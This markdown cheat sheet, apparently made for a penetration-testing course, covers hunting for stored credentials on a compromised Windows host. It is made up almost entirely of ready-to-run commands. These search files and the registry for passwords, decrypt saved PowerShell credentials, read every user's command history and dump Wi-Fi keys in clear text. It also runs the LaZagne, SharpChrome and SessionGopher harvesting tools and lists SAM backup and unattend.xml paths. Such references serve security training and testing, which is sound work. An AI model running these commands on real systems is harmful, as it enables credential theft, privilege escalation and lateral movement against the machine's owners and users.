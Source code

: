  ### Search in file content
```batch
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
findstr /SIM /C:"ipmonitor" *
findstr /SIM /C:"System.Management.Automation.PSCredential" *
```
```powershell
select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password
```
### Search in file name
```bat
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

where /R C:\ user.txt

where /R C:\ *.ini
```
```ps1
Get-ChildItem C:\ -Recurse -Include *.rdp, *.snt, *.vnc, *.cred, *.kdbx, *.pcsafe* -ErrorAction Ignore
Get-ChildItem C:\Users -Recurse -Include *.txt, *.ps1, *.config, *.vb, *.bat -ErrorAction Ignore
```
### Search the registry
```bat
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

```
### PowerShell credentials
They're encrypted with **DPAPI**, meaning only the user who created them can decrypt them
```powershell
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().username
$credential.GetNetworkCredential().password
```
### PowerShell history 
```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```
### CMDKEY
Used to store credentials for terminal services and remote connections.
Can be used to move laterally or escalate privileges.
```bat
cmdkey /list
```
### Wifi passwords 
```bat
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```
### Search for files in alternate data streams 
```powershell
Get-Item -path flag.txt -Stream *

Get-Content -path flag.txt -Stream Flag
```
## Cool tools 

### [LaZagne](https://github.com/AlessandroZ/LaZagne) 
```cmd
.\lazagne.exe all
```
### [SharpChrome](https://github.com/GhostPack/SharpDPAPI)
```cmd
.\SharpChrome.exe logins 
```
### [SessionGopher](https://github.com/Arvanaghi/SessionGopher)
```powershell
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher
```

## Cool locations to check out : 

### Sticky notes :3
```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite" -ErrorAction SilentlyContinue}
```

### IIS Config 
Find all configs : 
```powershell
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```



### Chrome dictionnary
```
\Users\username\AppData\Local\Google\Chrome\User Data\Default\
```

### unattend.xml
```
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

### Other random cool files :
```list
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```


[Still want more?](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords)